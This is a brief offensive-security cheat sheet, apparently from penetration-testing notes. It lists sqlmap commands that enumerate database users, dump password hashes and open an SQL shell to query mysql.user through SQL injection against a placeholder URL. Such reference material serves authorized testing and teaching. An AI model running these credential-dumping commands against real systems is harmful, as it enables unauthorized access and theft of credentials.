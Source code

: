 # 05 - Credentials

Search Tag(s): #sqlmap #enumeration-and-discovery #credential-access-and-dumping #data-exfiltration

## Automated

- Enumerate user database accounts.

```
$ sqlmap -u "<URL>" --random-agent --users
```

- Extract user database passwords.

```
$ sqlmap -u "<URL>" --random-agent --passwords
```

## Manually

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SELECT USER()

sql-shell> SELECT user, password FROM mysql.user
```